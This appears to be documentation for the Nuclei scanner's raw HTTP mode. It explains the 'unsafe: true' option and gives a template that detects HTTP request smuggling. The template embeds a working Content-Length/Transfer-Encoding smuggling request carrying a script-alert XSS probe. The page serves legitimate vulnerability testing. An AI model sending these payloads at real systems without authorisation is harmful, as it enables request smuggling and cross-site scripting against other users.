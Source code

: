 ```yaml
---
title: "Unsafe HTTP"
---
```


Nuclei supports [rawhttp](https://github.com/projectdiscovery/rawhttp) for complete request control and customization allowing **any kind of malformed requests** for issues like HTTP request smuggling, Host header injection, CRLF with malformed characters and more.

**rawhttp** library is disabled by default and can be enabled by including `unsafe: true` in the request block. 

Here is an example of HTTP request smuggling detection template using `rawhttp`. 

```yaml
http:
  - raw:
    - |+
        POST / HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 150
        Transfer-Encoding: chunked

        0

        GET /post?postId=5 HTTP/1.1
        User-Agent: a"/><script>alert(1)</script>
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 5

        x=1
    - |+
        GET /post?postId=5 HTTP/1.1
        Host: {{Hostname}}

    unsafe: true # Enables rawhttp client
    matchers:
      - type: dsl
        dsl:
          - 'contains(body, "<script>alert(1)</script>")'
```
